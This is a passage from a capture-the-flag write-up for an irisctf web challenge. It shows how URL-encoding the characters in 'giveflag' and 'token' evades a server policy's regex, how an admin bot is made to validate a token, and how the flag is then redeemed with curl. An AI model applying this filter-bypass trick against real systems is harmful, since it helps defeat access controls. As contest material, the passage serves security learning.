- I urlencoded some of the url's characters to prevent the policy from matching the regex as seen below.I urlencoded char `f` in `giveflag` and `t` in `token`.The bot will make a request to `giveflag` to validate our token since it has the admin cookie and set it to `true` in the server.Later,we can redeem our flag.

```
https://political-web.chal.irisc.tf/give%66lag?%74oken=<token>
```

- Grabbed my token

![image](https://github.com/user-attachments/assets/cc43f9ca-b64f-4865-a765-da6742cdec0d)

- Make an admin request with the bot

![image](https://github.com/user-attachments/assets/94238dbe-93a8-480a-80b0-3040fe6a1901)

- Redeem the flag

```bash
❯ curl https://political-web.chal.irisc.tf/redeem -d "token=501ad20a1ebe705cad85011197db3920"
irisctf{flag_blocked_by_admin}
```

- Flag-:`irisctf{flag_blocked_by_admin}`

----------------

### THANKS FOR READING 

---------------

